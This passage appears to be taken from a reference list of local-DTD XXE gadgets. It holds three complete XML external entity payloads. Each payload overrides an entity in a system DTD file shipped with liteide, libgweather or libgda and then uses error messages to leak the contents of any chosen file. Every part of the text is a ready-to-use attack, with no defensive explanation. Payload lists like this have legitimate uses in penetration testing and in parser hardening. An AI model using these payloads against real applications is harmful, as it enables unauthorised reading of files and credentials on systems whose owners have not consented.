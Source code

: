 **Injectable entity:** `%commonAttributes`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/liteide/liteeditor/kate/language.dtd">

    <!ENTITY % commonAttributes '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/libgweather/locations.dtd`

**Injectable entity:** `%name`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/libgweather/locations.dtd">

    <!ENTITY % name 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/libgda-5.0/dtd/libgda-server-operation.dtd`

**Injectable entity:** `%paramlist-dtd`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/libgda-5.0/dtd/libgda-server-operation.dtd">

    <!ENTITY % paramlist-dtd '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```
